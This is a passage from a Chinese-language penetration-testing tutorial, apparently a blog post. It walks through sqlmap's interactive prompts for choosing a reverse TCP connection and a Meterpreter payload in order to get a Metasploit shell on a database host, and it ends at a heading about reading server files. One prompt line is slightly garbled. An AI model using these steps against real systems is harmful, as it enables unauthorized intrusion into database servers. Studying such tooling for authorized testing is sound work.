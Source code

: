 
**然后选择连接的类型，这里选择默认的1 即可**



which connection type do you want to use?  

\[1\] Reverse TCP: Connect back from the database host to this machine (default)  

\[2\] Reverse TCP: Try to connect back from the database host to this machine, on all ports between the specified and 65535  

\[3\] Reverse HTTP: Connect back from the database host to this machine tunnelling traffic over HTTP  

\[4\] Reverse HTTPS: Connect back from the database host to this machine tunnelling traffic over HTTPS  

\[5\] Bind TCP: Listen on the database host for a connection  

\> 1



**然后还会提示监听的地址和端口，这里直接回车即可**



![](https://img-blog.csdnimg.cn/20200501164820709.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20200501164848309.png)



**然后这里选择payload的类型，我们这里选择默认的1**



which payload do you want to use?nt to use? \[11563\] ' (detected)\]  

\[1\] Meterpreter (default)  

\[2\] Shell  

\[3\] VNC  

\> 1



![](https://img-blog.csdnimg.cn/20200501164907451.png)



执行完成后，如果不出问题，我们就可以获得一个MSF类型的shell了。



![](https://img-blog.csdnimg.cn/20200501164941174.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 读取服务器文件(--file-read)

